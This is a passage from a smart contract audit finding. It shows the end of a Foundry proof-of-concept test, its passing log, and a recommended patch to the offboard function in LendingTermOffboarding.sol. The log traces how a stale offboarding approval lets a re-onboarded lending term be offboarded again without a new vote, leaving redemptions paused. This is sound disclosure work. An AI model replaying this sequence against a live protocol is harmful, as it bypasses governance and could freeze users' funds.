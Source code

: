 ```solidity
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 13);
        onboarder.queue(targets, values, calldatas, keccak256(bytes(description)));
        assertEq(uint8(onboarder.state(proposalId)), uint8(IGovernor.ProposalState.Queued));

        // execute
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + _TIMELOCK_MIN_DELAY + 13);
        onboarder.execute(targets, values, calldatas, keccak256(bytes(description)));
        assertEq(uint8(onboarder.state(proposalId)), uint8(IGovernor.ProposalState.Executed));

        // check execution
        assertEq(guild.isGauge(address(term)), true);

    }

}
```

- Now, let's run the PoC and see the output, use the next command to run the PoC `forge test --match-test testOffBoardAndReOnBoardPoC --match-contract OffBoardingAndReOnboardingPoC -vvv`
```
[PASS] testOffBoardAndReOnBoardPoC() (gas: 1410330)
Logs:
  Offboarding Term
  Reonboarding Term after it was Offboarded, but before it is cleared
  Closing Loans
  Re-Offboarding the term again without proposing and voting for the term to be re-offboarded again
  Cleaning Up the Term even though the term was re-onboarded and there were not a new proposal and voting to offboard the term again
  Redemptions were not unpaused in the PSM
  nOffboardingsInProgress was not downgraded to 0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 12.63ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Tools Used
Manual Audit

## Recommended Mitigation Steps
- The recommendation to mitigate this bug it is to ensure that previous offboarding proposals can't be reused. Add the below changes to the code in the `LendingTermOffboarding.sol` file

> LendingTermOffboarding.sol
```solidity
function offboard(address term) external whenNotPaused {
    //@audit-ok => Only if the proposal reaches quorum it can be offboarded!
    require(canOffboard[term], "LendingTermOffboarding: quorum not met");

    //@audit-recommendation => If the gauge is not deprecated anymore, it means the term was re-onboarded, set the canOffboard[term] to false, in this way, if the term would like to be offboarded again, the offboarding must be proposed and voted again
+   if(!GuildToken(guildToken).isDeprecatedGauge(term)){
+       canOffboard[term] = false;
+       return;
+   }

    ...
}


```
